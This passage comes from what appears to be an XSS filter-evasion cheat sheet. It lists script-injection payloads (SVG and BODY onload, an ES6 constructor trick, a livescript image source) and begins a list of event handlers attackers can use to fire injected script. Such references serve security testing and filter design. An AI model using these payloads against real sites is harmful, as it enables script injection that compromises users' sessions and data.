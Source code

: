 ## Livescript (older versions of Netscape only)

`<IMG SRC="livescript:[code]">`

## SVG object tag

`<svg/onload=alert('XSS')>`

## ECMAScript 6

`` Set.constructor`alert\x28document.domain\x29``` ``

## BODY tag

Method doesn't require using any variants of "javascript:" or
"\<SCRIPT..." to accomplish the XSS attack). Dan Crowley additionally
noted that you can put a space before the equals sign ("onload=" \!=
"onload ="):

`<BODY ONLOAD=alert('XSS')>`

## Event Handlers

It can be used in similar XSS attacks to the one above (this is the most
comprehensive list on the net, at the time of this writing). Thanks to
Rene Ledosquet for the HTML+TIME updates.

The [Dottoro Web Reference](http://help.dottoro.com/) also has a nice
[list of events in JavaScript](http://help.dottoro.com/ljfvvdnm.php).

1.  `FSCommand()` (attacker can use this when executed from within an
    embedded Flash object)
2.  `onAbort()` (when user aborts the loading of an image)
3.  `onActivate()` (when object is set as the active element)
4.  `onAfterPrint()` (activates after user prints or previews print job)
5.  `onAfterUpdate()` (activates on data object after updating data in
    the source object)
6.  `onBeforeActivate()` (fires before the object is set as the active
    element)
7.  `onBeforeCopy()` (attacker executes the attack string right before a
    selection is copied to the clipboard - attackers can do this with
    the `execCommand("Copy")` function)
8.  `onBeforeCut()` (attacker executes the attack string right before a
    selection is cut)
9.  `onBeforeDeactivate()` (fires right after the activeElement is
    changed from the current object)
10. `onBeforeEditFocus()` (Fires before an object contained in an
    editable element enters a UI-activated state or when an editable
    container object is control selected)
11. `onBeforePaste()` (user needs to be tricked into pasting or be
    forced into it using the `execCommand("Paste")` function)
12. `onBeforePrint()` (user would need to be tricked into printing or
    attacker could use the `print()` or `execCommand("Print")`
    function).
13. `onBeforeUnload()` (user would need to be tricked into closing the
    browser - attacker cannot unload windows unless it was spawned from
    the parent)
14. `onBeforeUpdate()` (activates on data object before updating data in
    the source object)
15. `onBegin()` (the onbegin event fires immediately when the element's
    timeline begins)
16. `onBlur()` (in the case where another popup is loaded and window
    looses focus)